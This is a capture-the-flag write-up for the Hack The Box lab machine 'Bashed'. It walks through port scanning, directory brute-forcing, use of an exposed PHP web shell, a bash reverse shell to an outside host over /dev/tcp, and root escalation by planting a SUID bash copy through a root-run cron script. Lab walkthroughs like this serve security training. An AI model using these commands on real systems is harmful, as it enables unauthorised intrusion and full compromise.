 ```yaml
---
name: Bashed
difficulty: easy
os: linux
platform: htb
date: 2025/10/02
releasedDate: 2009-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/0f058b73659ca043de9f5240abd651ca.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.68 -o allPorts
```

```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p <ports> -sCV <dns>.htb -o targeted
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

We find a web server running Apache 2.4.18 on port 80. We will visit the website in our browser to see if there is any interesting content.

![](images/bashed/2025-10-02-18-29-17.png)

We do not see much on the homepage, so we will use a directory brute-forcing tool like ffuf to find hidden directories and files.

```bash 
ffuf -u http://10.10.10.68/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```
```
php                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 35ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 36ms]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 35ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 35ms]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 4991ms]
```
We find a directory named `dev`. If we visit it, we see a directory listing page.
![](images/bashed/2025-10-02-19-04-41.png)

We find in `phpbash.php` a bash web shell. We can use it to execute commands on the target machine.

## User Exploitation

We can use this on our advantage to get a reverse shell. We will use a simple bash reverse shell payload.

First, we will set up a listener on our machine using netcat:
We set up a netcat listener on our machine to catch the reverse shell.

```bash
nc -lvnp 443
```

Then, we will execute the following command in the web shell to get a reverse shell:
```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.10/443 0>%261"
whoami
```
```
www-data
```

Now we can see the user flag in `/home/arrexel/user.txt`.


## Root Exploitation

We check the sudo privileges of the `www-data` user.

```bash
sudo -l
```
```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

We can run commands as the `scriptmanager` user without a password. We will switch to the `scriptmanager` user using `sudo -u`.

```bash
sudo -u scriptmanager bash
whoami
```
```
scriptmanager
```

We look for files owned by the `scriptmanager` user outside his home directory or `/proc`.

```bash
find / -user scriptmanager 2>/dev/null | grep -v "/proc" | grep -v "/home/scriptmanager"
```
```
/scripts
/scripts/test.py
```

We look at the `/scripts/test.py` file.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

We also find a `test.txt` file in the `/scripts` directory.

```bash
cat /scripts/test.txt
```
```
testing 123!
```

We guess that `root` runs this script periodically since `test.txt` is owned by `root`.

We will use a simple python payload to try to escalate our privileges.
```python
import os

os.system("cp /bin/bash /tmp/bash; chmod +xs /tmp/bash")
```

We wait for the script to run and then we can use the `/tmp/bash` shell to get a root shell.

```bash
ls -la /tmp/bash
```
```
-rwsr-xr-x 1 root root 1113504 Oct  2 19:25 /tmp/bash
```

```bash
/tmp/bash -p
whoami
```
```
root
```

## Conclusion
We have successfully exploited the `Bashed` machine and obtained both user and root flags. The key steps involved finding a web shell, leveraging it to get a reverse shell, and then exploiting sudo privileges to escalate to root.
